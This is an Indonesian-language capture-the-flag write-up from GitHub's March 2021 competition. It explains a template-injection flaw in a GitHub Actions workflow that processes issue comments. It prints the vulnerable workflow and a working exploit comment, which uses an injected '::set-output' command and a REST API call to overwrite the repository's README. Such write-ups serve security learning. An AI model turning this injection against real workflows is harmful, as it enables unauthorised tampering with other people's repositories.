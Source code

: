 ```yaml
---
title: "[Writeup][CTF][GitHub] Privilege Escalation on GitHub Action"
date: '2021-06-14 04:00:00'
tags: ['ctf','github','writeup']
categories: ['writeup']
author: "fadhilthomas"
draft: false
---
```


![alt text](/github01/logo.svg)

Bulan Maret 2021, GitHub mengadakan *security competition*, yaitu Capture The Flag yang menjadikan Github Action Workflow sebagai tantangannya. 

Peserta diberikan sebuah repositori pribadi yang berisi sebuah Github Action Workflow dan file Readme yang hanya memiliki akses baca atau *pull* saja. Tujuan dari tantangan ini yaitu peserta diharuskan melakukan *update* file di repositori tersebut.

![alt text](/github01/github01.png)

## Problem
```yaml
name: log and process issue comments
on:
  issue_comment:
    types: [created]

jobs:
  issue_comment:
    name: log issue comment
    runs-on: ubuntu-latest
    steps:
      - id: comment_log
        name: log issue comment
        uses: actions/github-script@v3
        env:
          COMMENT_BODY: ${{ github.event.comment.body }}
          COMMENT_ID: ${{ github.event.comment.id }}
        with:
          github-token: "deadc0de"
          script: |
            console.log(process.env.COMMENT_BODY)
            return process.env.COMMENT_ID
          result-encoding: string
      - id: comment_process
        name: process comment
        uses: actions/github-script@v3
        timeout-minutes: 1
        if: ${{ steps.comment_log.outputs.COMMENT_ID }}
        with:
          script: |
            const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
            return ""
          result-encoding: string
```

## Analysis
Sesuai dengan namanya, Github Action di atas memiliki *flow* untuk melakukan *logging* dari komentar pada *issue* yang sudah dibuat. Pada *step* pertama, Github Action memiliki env yaitu `COMMENT_BODY` dan `COMMENT_ID`. Kemudian ia akan melakukan *logging* isi dari badan komentar menggunakan console.log. 

Pada step kedua, terdapat pengecekan kondisi apabila keluaran dari `COMMENT_ID` pada step pertama bernilai `true` atau `1`, maka Github Action akan mengeksekusi script berikut ```const id = ${{ steps.comment_log.outputs.COMMENT_ID }}``` yang mana, terdapat celah keamanan yaitu *javascript template injection*. 

Namun sebelum bisa memanfaatkan celah *template injection*, terlebih dahulu harus memenuhi kondisi `COMMENT_ID == true`. Dalam [dokumentasi GitHub](https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#stopping-and-starting-workflow-commands), *workflow runner* akan mengeksekusi *workflow* command melalui `stdout` yaitu `console.log`, dan dalam [dokumentasi GitHub](https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#setting-an-output-parameter) juga terdapat command yang dapat membagikan nilai *variable* antar *workflow* melalui command `set-output`.

## Exploit
Untuk memperbarui file `README.md` yang ada dalam repositori, maka tambahkan *script* berikut pada komentar *issue*:
```yaml
::set-output name=COMMENT_ID::1;
await github.request('PUT /repos/{owner}/{repo}/contents/{path}', 
{ 
  owner: 'incrediblysecureinc', 
  repo: 'incredibly-secure-fadhilthomas',
  path: 'README.md',
  message: 'update: escalation',
  content: 'dGFrZW5z',
  sha: '4183b7e35a40d11acf98bad686ed2f6834cd71d0' 
})
```
Penjelasan dari *script* di atas sebagai berikut:

 - `::set-output name=COMMENT_ID::1;` berfungsi untuk mengirimkan nilai `COMMENT_ID` ke step kedua untuk memenuhi pengecekan kondisi.
 - `github.request('PUT /repos/{owner}/{repo}/contents/{path}` merupakan [GitHub REST API](https://docs.github.com/en/rest/reference/repos#create-or-update-file-contents) untuk memperbarui file.

Hasil dari script di atas adalah file `README.md` berhasil diperbarui sesuai dengan tujuan dari tantangan ini.
![alt text](/github01/github02.png)

## References
1. https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#stopping-and-starting-workflow-commands
2. https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions#setting-an-output-parameter
3. https://docs.github.com/en/rest/reference/repos#create-or-update-file-contents
